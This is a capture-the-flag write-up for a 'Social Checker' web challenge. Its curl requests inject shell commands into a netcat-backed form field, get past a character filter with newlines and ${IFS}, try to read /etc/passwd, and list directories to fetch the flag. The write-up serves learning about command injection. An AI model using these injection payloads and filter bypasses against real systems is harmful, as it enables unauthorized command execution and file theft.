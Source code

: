 # Social Checker
Social Checker - check if your favourite social media site is online!

http://46.101.107.117:2103

---

Social Checker page:

![](social-checker.png)

HTTP request is a simple POST:
```
POST http://46.101.107.117:2103/check.php
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

url=twitter.com
```

At first, I thought this is about SSRF. I tried:
```
$ curl -X POST -d 'url=https://webhook.site/#!/ffcc105b-44c4-4ad7-a3fe-8c6296c202e0' http://46.101.107.117:2103/check.php
nc: bad port spec 'https://webhook.site/#!/ffcc105b-44c4-4ad7-a3fe-8c6296c202e0'
```

Ah, this is backed by [Netcat](https://en.wikipedia.org/wiki/Netcat).

The next idea was _command injection_:
```
$ curl -X POST -d 'url=twitter.com && cat /etc/passwd' http://46.101.107.117:2103/check.php
nice try - www.youtube.com/watch?v=a4eav7dFvc8
```

After some errors and trials, I discovered that some characters are blocked. Mainly _space_ and `;`.

I googled a bit how to bypass those restrictions:
- https://portswigger.net/web-security/os-command-injection:
  Use **newline** for command separation.
- https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions:
  Use `${IFS}` instead of _space_.

I created a new file `payload`:
```
url=twitter.com
ls${IFS}/
```

Execute `ls${IFS}/` payload:
```
$ curl -X POST --data-binary @payload http://46.101.107.117:2103/check.php
ls: 80: No such file or directory
/:
bin
dev
etc
home
htdocs
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Execute `ls${IFS}/htdocs` payload:
```
...
/htdocs:
bg.jpg
check.php
flag.txt
index.php
```

Finally, read the flag using `cat${IFS}/htdocs/flag.txt`:
```
he2021{1ts_fun_t0_1nj3kt_k0mmand5}cat: can't open '80': No such file or directory
```

The flag is `he2021{1ts_fun_t0_1nj3kt_k0mmand5}`

Nice challenge!